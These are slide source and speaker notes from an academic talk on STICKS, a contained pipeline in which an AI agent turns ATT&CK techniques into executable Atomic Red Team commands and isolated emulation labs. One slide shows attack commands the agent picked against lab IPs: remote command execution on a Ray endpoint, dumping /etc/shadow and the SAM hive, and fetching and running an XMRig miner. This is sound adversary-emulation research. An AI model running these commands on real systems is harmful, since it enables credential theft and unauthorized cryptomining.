<div class="card flat edge-purple" style="padding:.45rem .8rem;margin-bottom:.5rem;"><p style="font-size:.82rem;"><strong>Job:</strong> for every DAG node, <strong>select</strong> a command (Atomic Red Team), <strong>parametrize</strong> it (IP, host, path, creds), <strong>order</strong> it, and <strong>derive the environment needs</strong> → emits the ordered Abilities + the env-parameter spec for Stage 5.</p></div>

<div class="cards c2" style="gap:.8rem;align-items:start;">

<div class="tight">
<div style="font-size:.76rem;font-weight:700;color:var(--sticks-purple);margin-bottom:.25rem;">Concrete commands it picked for ShadowRay</div>

<div class="card edge-purple" style="padding:.4rem .6rem;">
<p style="font-size:.74rem;margin:0 0 .15rem;"><strong>T1190</strong> Exploit Public-Facing App <span class="pill purple">initial-access</span></p>

```sh
curl -X POST -F 'cmd=whoami' http://192.168.20.30:5055/exec
```

</div>

<div class="card edge-blue" style="padding:.4rem .6rem;">
<p style="font-size:.74rem;margin:0 0 .15rem;"><strong>T1003.008</strong> /etc/passwd &amp; /etc/shadow <span class="pill blue">cred-access</span></p>

```sh
ssh root@192.168.20.30 'cat /etc/passwd && cat /etc/shadow'
```

</div>

<div class="card edge-red" style="padding:.4rem .6rem;">
<p style="font-size:.74rem;margin:0 0 .15rem;"><strong>T1105</strong> Ingress Tool Transfer <span class="pill red">C2</span></p>

```sh
curl http://192.168.20.30:8000/xmrig -o /tmp/xmrig; /tmp/xmrig
```

</div>
</div>

<div class="tight">
<div style="font-size:.76rem;font-weight:700;color:var(--sticks-blue);margin-bottom:.25rem;">One technique → many commands (picks the executor for the target OS)</div>

<div class="card edge-blue" style="padding:.4rem .6rem;">
<p style="font-size:.74rem;margin:0 0 .15rem;"><strong>T1003</strong> · OS Credential Dumping</p>

```sh
# linux    cat /etc/shadow
# windows  reg save HKLM\SAM sam.hive
# macos    defaults read .../ShadowHashData
```

</div>

<div class="card edge-purple" style="padding:.4rem .6rem;">
<p style="font-size:.74rem;margin:0 0 .15rem;"><strong>T1105</strong> · Ingress Tool Transfer</p>

```sh
# linux    curl http://10.0.0.5/t -o /tmp/t
# windows  Invoke-WebRequest http://10.0.0.5/t -OutFile t.exe
# macos    curl -O http://10.0.0.5/t && chmod +x t
```

</div>

<div class="card flat edge-grad" style="padding:.4rem .6rem;"><p style="font-size:.74rem;"><strong>Same technique, different command, different environment needs.</strong> The OS choice propagates to Stage 5, a Windows command needs a Windows host.</p></div>
</div>

</div>

<!--
This is the operationalization agent, stage four, the richest sub-agent, because it is the command-semantics gap made automatic. Everything is on one slide: what it does, and two kinds of example.

The banner at the top is the job, stated textually. For every node in the DAG, the agent does four things: it selects a command that implements the technique, drawing on Atomic Red Team; it parametrizes that command with the real target specifics, the IP, the hostname, the path, the credentials; it orders it within the DAG so dependencies are satisfied; and it derives the environment requirements, because a command's prerequisites and platform essentially define what the environment must provide. The output is the pair a human produces: the ordered Abilities plus the environment-parameter spec that feeds stage five.

The left column is the concrete proof: these are real commands the agent picked for ShadowRay. T1190 POSTs to the vulnerable Ray exec endpoint. T1003.008 SSHes in and dumps /etc/passwd and /etc/shadow. T1105 pulls the XMRig miner onto the host and runs it, which is ShadowRay's actual goal. Notice they are fully parametrized with real IPs and credentials, not templates.

The right column makes the subtle point: a technique is not one command. Atomic Red Team ships multiple executors because the same behavior looks different per operating system. Credential dumping, T1003, is cat /etc/shadow on Linux, saving the SAM hive on Windows, reading ShadowHashData on macOS. Ingress tool transfer, T1105, is curl on Linux, Invoke-WebRequest on Windows, curl plus chmod on macOS. And the key consequence, in the bottom card: when the agent picks the Windows executor, it has implicitly decided the target must be a Windows host, so that choice propagates straight into stage five. The command and the environment are two sides of the same decision.
-->

---
layout: default
---

# Environment agent (Stage 5)

<div class="grad-rule"></div>

<div class="two-col">
<div class="tight">

<div class="card edge-purple">
<h3>Job</h3>
<p>Turn the environment parameters into an <strong>actual isolated target environment</strong>, the hosts, services and vulnerabilities the campaign needs to land. This is the <strong>environment-emulation gap</strong>, automated.</p>
</div>

<div class="card edge-blue">
<h3>How it works</h3>
<ul>
<li><strong>Input:</strong> the environment-parameter spec (from Stage 4).</li>
<li><strong>Design:</strong> decide which hosts exist, what services they run, which vulnerabilities they expose.</li>
<li><strong>Split build:</strong> choose what must be installed during the egress window vs. configured <strong>offline-isolated</strong>.</li>
<li><strong>Provision:</strong> bring up the Docker/compose topology, verify health, then load the Abilities.</li>
</ul>
</div>

</div>

<div class="tight">
<div class="card edge-red">
<h3>Output</h3>
<p>A ready, <strong>isolated</strong> environment tagged <code>origin = ai_generated</code>, verified against the internal subnets before anything can run against it.</p>
</div>

<div class="card flat edge-purple" style="padding:.6rem .8rem;"><p><strong>Safety is inherited, not re-invented:</strong> the read-only, fail-closed isolation check runs exactly as today. An environment the agent builds is held to the same bar as one a human built.</p></div>
</div>

</div>

<!--
Component four is the environment agent, stage five, which automates the second face of the gap, environment emulation.

Its job, top-left: take the environment-parameter specification that the operationalization agent produced and turn it into an actual, isolated target environment, the battlefield, the hosts and services and vulnerabilities that the campaign's commands need in order to succeed.

The how, on the left. The input is that environment-parameter spec from stage four. First it designs: it decides which target hosts have to exist, what services each must run, and which vulnerabilities each must expose so that the techniques can actually land, if a technique exploits a vulnerable web service, that service has to be there and has to be vulnerable in the right way. Then the split-build decision, which is specific to how we keep the lab contained: it chooses what must be installed during the brief controlled egress window, when the lab is allowed to reach out, versus what can be configured entirely offline once the lab is sealed. Then it provisions: it brings up the Docker and compose topology, verifies the containers are healthy, and loads the Abilities so they are ready to execute.

The output, top-right, is a ready, isolated environment tagged origin AI-generated, and critically it is verified against the internal subnets before any attack can run against it.

And the bottom card is the safety point for this component: the environment agent does not get to invent its own safety rules. The same read-only, fail-closed isolation check that guards a human-built environment runs here unchanged. An environment the agent constructs is held to exactly the same bar, if it is not provably isolated, nothing executes.
-->

---
layout: default
---

# Measure loop agent (Stage 6)

<div class="grad-rule"></div>

<div class="two-col">
<div class="tight">

<div class="card edge-purple">
<h3>Job</h3>
<p>Close the loop. Read the <strong>execution verdict</strong> and diagnose <em>why</em> the curation fell short, then feed concrete fixes back upstream. This is what makes it an <strong>agent, not a one-shot generator</strong>.</p>
</div>

<div class="card edge-blue">
<h3>How it works</h3>
<ul>
<li><strong>Input:</strong> the Stage 6 report, success rate, failed nodes, telemetry, verdict.</li>
<li><strong>Diagnose:</strong> for each failed node, was it a bad/mis-parametrized <strong>command</strong> (St.4), a missing <strong>env</strong> service (St.5), or a wrong <strong>order</strong> (St.3)?</li>
<li><strong>Attribute:</strong> route the fix to the responsible upstream agent.</li>
<li><strong>Re-run &amp; remember:</strong> re-execute, and persist the lesson in long-term memory.</li>
</ul>
</div>

</div>

<div class="tight">
<div class="card edge-red">
<h3>Output</h3>
<p>An <strong>improved curation</strong> each pass, iterating toward higher <strong>procedural sufficiency</strong>, using the measurable verdict as the reward signal.</p>
</div>

<div class="card flat edge-grad" style="padding:.6rem .8rem;"><p><strong>Stage 6 itself is unchanged.</strong> The agent does not rewrite execution or measurement, it <strong>consumes</strong> their output. The loop reads the same verdict a human researcher reads.</p></div>
</div>

</div>

<!--
Component five is the measurement-and-feedback loop, built on stage six, and this is the component that elevates the system from a generator into a genuine agent.

Its job, top-left: close the loop. After a curation has actually executed, read the verdict, figure out why it fell short of full procedural sufficiency, and feed concrete corrections back upstream to the agents that can fix them. A one-shot generator produces a curation and stops; an agent runs it, sees how it did, and improves, that difference is this component.

The how, on the left. The input is the stage-six report: the success rate, the list of failed nodes, the per-technique telemetry, and the overall verdict. Then the diagnostic reasoning, which is the heart of it: for each node that failed, which stage is actually to blame? Was it a wrong or mis-parametrized command, a stage-four problem? Was a required service missing from the environment, a stage-five problem? Or did the steps run in the wrong order, a stage-three problem? Then it attributes: it routes the specific fix to the responsible upstream agent, the DAG agent, the operationalization agent, or the environment agent. And then it re-runs and remembers: it re-executes the corrected curation, and it persists what it learned into long-term memory, so the lesson carries forward to the next campaign.

The output, top-right, is an improved curation on each pass, iterating toward higher procedural sufficiency, and it is using the measurable verdict as its reward signal, which is what makes the improvement principled rather than guesswork.

And the bottom card is an important clarification, it connects back to your earlier question about stage six: the agent does not change stage six at all. Execution and measurement stay exactly as they are. The loop simply consumes the very same verdict that a human researcher would read, and acts on it. Stage six is the signal; the loop is the response. With all five components laid out, let me close by showing what is already proven and where this goes next.
-->

---
layout: default
class: section-divider
---

<div class="section" style="position:absolute;inset:0;"></div>

<div class="absolute top-8 left-14">
  
</div>

<div class="absolute left-14 right-14" style="top:40%;">
  <div class="kicker">Section 04</div>
  <h1 style="font-size:3rem;">Evidence &amp; <span class="grad-text">Close</span></h1>
  <div class="grad-rule" style="width:140px;height:6px;"></div>
  <div style="font-size:1.1rem;color:var(--ink-soft);max-width:48rem;">
    What is already proven · the roadmap to the AI agent · questions
  </div>
</div>

<!--
We have reached the final section: evidence and close. I have told you about the problem, the building blocks, the pipeline, and my proposed AI agent. Now I want to ground all of that in what is actually built and proven, so this does not come across as a purely theoretical plan.

So in this short closing section I will do three things. First, I will show you the concrete evidence, the foundation that already works end to end today, including a real emulation we executed, with numbers. Second, I will lay out the roadmap: where we are now, and the path from this proven foundation to the fully realized AI agent. And third, we will open the floor for questions.

The reason the evidence matters is that my proposal is not a greenfield fantasy. It rests on a working platform. The pipeline exists, the containment works, and we have already driven a real APT campaign through it to completion inside the isolated lab. That foundation is precisely what makes the AI agent an incremental, well-scoped next step rather than a leap into the unknown. Let me show you the proof.
-->

---
layout: default
---

# What is proven today

<div class="grad-rule"></div>

<div class="stats" style="margin-bottom:1rem;">
<div class="stat"><div class="n grad-text">6</div><div class="l">pipeline stages, working end to end</div></div>
<div class="stat"><div class="n grad-text">8</div><div class="l">curated campaigns integrated</div></div>
<div class="stat"><div class="n grad-text">11</div><div class="l">ShadowRay techniques executed, real lab</div></div>
<div class="stat"><div class="n grad-text">PASSED</div><div class="l">real end-to-end emulation verdict</div></div>
</div>

<div class="cards c2" style="gap:1rem;">
<div class="card edge-blue">
<h3>The milestone: real ShadowRay E2E</h3>
<p>The full ShadowRay campaign ran <strong>for real</strong> in the contained lab, 11 Abilities executed against the live targets, <strong>0 failures</strong>, 1:1 audit trail persisted. The pipeline produced a measured result, not a mock.</p>
</div>
<div class="card edge-red">
<h3>Engineering &amp; correctness</h3>
<ul>
<li><strong>188</strong> backend tests · <strong>17</strong> frontend tests</li>
<li><strong>12</strong> property-based correctness properties (incl. the security invariants, hundreds of iterations each)</li>
<li>Isolated lab: <strong>4</strong> containers, 3 internal /24 networks, preflight conflict check</li>
</ul>
</div>
</div>

<!--
This is the evidence, and I want to walk through the numbers because they are the proof that the foundation is real.

Look at the four figures across the top. Six: the pipeline has all six stages working end to end, not on paper, not mocked, but actually running. Eight: all eight human-curated campaigns are integrated and selectable. Eleven: the number of techniques from the ShadowRay campaign that executed in the real lab. And PASSED: the verdict of the real end-to-end emulation.

Let me expand on the milestone, on the bottom-left, because it is the single most important result so far. ShadowRay is one of the eight curated campaigns. We brought up the full isolated lab and ran the entire ShadowRay campaign for real, not against mocks, but against live target containers, driven by Caldera. All eleven Abilities executed in the correct DAG order, with zero failures, and the one-to-one audit trail was persisted to the database. This was the project's last remaining foundational milestone, and clearing it means the pipeline genuinely produces a measured procedural-sufficiency result from a real contained execution. That is the capability my AI agent will build on, the agent generates the curation, and this same proven machinery executes and measures it.

On the bottom-right is the engineering and correctness evidence, because a security platform has to be trustworthy, not just functional. There are one hundred eighty-eight automated backend tests and seventeen frontend tests. More interesting for a safety-critical system, there are twelve property-based correctness properties, verified with hundreds of randomized iterations each. Those properties include the security invariants themselves, for example: no emulation ever starts against an external target; execution proceeds only when all targets are confirmed isolated; execution requires explicit confirmation; the audit is strictly one-to-one; and an audit failure aborts the operation. We did not just test these on a few examples, we proved them to hold across hundreds of generated scenarios. And the isolated lab is the four-container topology on three internal class-C networks, with a preflight check that refuses to bring the lab up if any of its subnets is already in use on the machine, so an attack packet can never be routed somewhere unexpected.

Taken together: the pipeline works, a real APT campaign has been reproduced and measured inside containment, and the safety guarantees are verified, not assumed. That is the solid ground my proposal stands on.
-->

---
layout: default
---

# Roadmap &amp; next steps

<div class="grad-rule"></div>

<div class="cards c3" style="gap:.9rem;">
<div class="card edge-blue">
<h3>✓ Phase 1, Foundation <span class="pill blue">done</span></h3>
<ul>
<li>Pipeline UI + backend + containment</li>
<li>6 stages working end to end</li>
<li>Real ShadowRay emulation proven</li>
</ul>
</div>
<div class="card edge-purple">
<h3>▸ Phase 2, AI curation agent <span class="pill purple">my work</span></h3>
<ul>
<li>DAG agent (Stage 3)</li>
<li>Operationalization agent (Stage 4)</li>
<li>Environment agent (Stage 5)</li>
<li>Measurement feedback loop</li>
</ul>
</div>
<div class="card edge-red">
<h3>◦ Phase 3, Evaluation</h3>
<ul>
<li>Run AI curation on all 8 campaigns</li>
<li>Measure procedural sufficiency</li>
<li><strong>AI vs. human</strong> comparison</li>
</ul>
</div>
</div>

<div class="cards c2" style="margin-top:1rem;gap:1rem;">
<div class="card flat edge-blue"><p><strong>Immediate next steps:</strong> reproduce 1–2 more campaigns in the real lab; begin Phase 2 behind the <code>ai_generated</code> origin seam.</p></div>
<div class="card flat edge-grad"><p><strong>Research contribution:</strong> an empirical, repeatable way to <strong>measure the procedural semantics gap</strong>, and the first automated attempt to close it.</p></div>
</div>

<!--
Here is the roadmap, which places my proposal in the arc of the whole project and shows what is next.

Phase one, on the left, is the foundation, and it is done. That is the Pipeline UI, the backend, the containment core, the six stages working end to end, and the real ShadowRay emulation we just looked at. This is the shared groundwork, and it is complete and proven. Everything on the previous slide belongs to phase one.

Phase two, in the middle, is the AI curation agent, and this is my work, the individual contribution this talk has been about. It breaks into the four components I detailed: the DAG agent for stage three, the operationalization agent for stage four, the environment agent for stage five, and the measurement feedback loop over stage six. Each slots into the origin seam the foundation already prepared. The deliberate sequencing here matters: we built and proved the foundation first, specifically so that when the agent arrives, it plugs into a stable, well-understood, measurable pipeline rather than a moving target. That is also why we spent the effort understanding each stage's input, processing, and output so carefully, that understanding is the specification the agent must meet.

Phase three, on the right, is evaluation, which is what turns this from an engineering exercise into research. We run the AI-generated curation on all eight campaigns, measure procedural sufficiency on each using the existing stage-six machinery, and compare directly against the human-curated baseline. That AI-versus-human comparison, on an identical measurable pipeline, is the headline result the project is driving toward.

The bottom cards give the practical and the scientific framing. On the left, the immediate next steps: reproduce one or two more campaigns in the real lab to broaden the proof beyond ShadowRay, and then begin phase two, implementing the agents behind the ai_generated origin seam. On the right, the research contribution stated cleanly: STICKS provides an empirical, repeatable way to measure the procedural semantics gap in ATT&CK-in-STIX, and my agent is the first automated attempt to close it, with the measurement itself as the arbiter of success.

So to summarize the whole talk in one breath: structured threat intelligence tells us which techniques a campaign used but not how to reproduce it; STICKS makes that gap measurable through a contained six-stage pipeline; and my contribution is an AI agent that automatically generates both the executable commands and the emulation environment, evaluated head-to-head against human experts. With that, I would love to take your questions.
-->

---
layout: default
class: section-divider
---

<div class="cover" style="position:absolute;inset:0;"></div>

<div class="absolute left-14 right-14" style="top:30%;">
  
  <h1 style="font-size:2.6rem;margin-top:1.2rem;">Thank you, <span class="grad-text">questions?</span></h1>
  <div class="grad-rule" style="width:130px;height:6px;"></div>
</div>

<div class="absolute bottom-16 left-14 right-14 flex justify-between items-end">
  <div>
    <div style="font-size:1.25rem;font-weight:800;">Nilson Sangy</div>
    <div style="font-size:.9rem;color:var(--muted);">CE-299 · Artificial Intelligence for Cybersecurity · Nov 20, 2026</div>
  </div>
  <div style="text-align:right;">
    <div style="font-weight:700;color:var(--sticks-purple);">github.com/c2dc/sticks</div>
    <div style="font-size:.82rem;color:var(--muted);">The Procedural Semantics Gap in ATT&amp;CK-in-STIX</div>
  </div>
</div>

<!--
Thank you very much for your attention. This is where I will stop and open the floor.

Let me leave you with the one-sentence version to anchor the discussion. ATT&CK and STIX tell us which techniques an adversary used, but not the concrete procedure needed to reproduce the campaign, the commands, their order, and the environment. STICKS turns that procedural semantics gap into something we can measure, inside a fully contained laboratory, through a six-stage pipeline that runs a real APT campaign end to end. And my contribution is an AI agent that automates the expert curation at the heart of that pipeline, generating both the executable command semantics and the emulated attack environment, so that we can, for the first time, measure automated curation against human experts on identical ground.

I am happy to go deeper on any part. A few directions I expect you might be curious about, and that I am glad to discuss: how the containment guarantees are actually verified and why we trust the fail-closed isolation gate; how procedural sufficiency is computed and what a "failed node" tells us diagnostically; why the DAG has to precede command selection; how the AI agent will use Atomic Red Team as a command source and what happens when no atomic test cleanly matches a technique; and how the feedback loop decides whether a failure is a command problem or an environment problem. I can also talk through the real ShadowRay run in more detail, or the engineering problems we hit bringing the lab up offline.

Please, go ahead with your questions.
-->
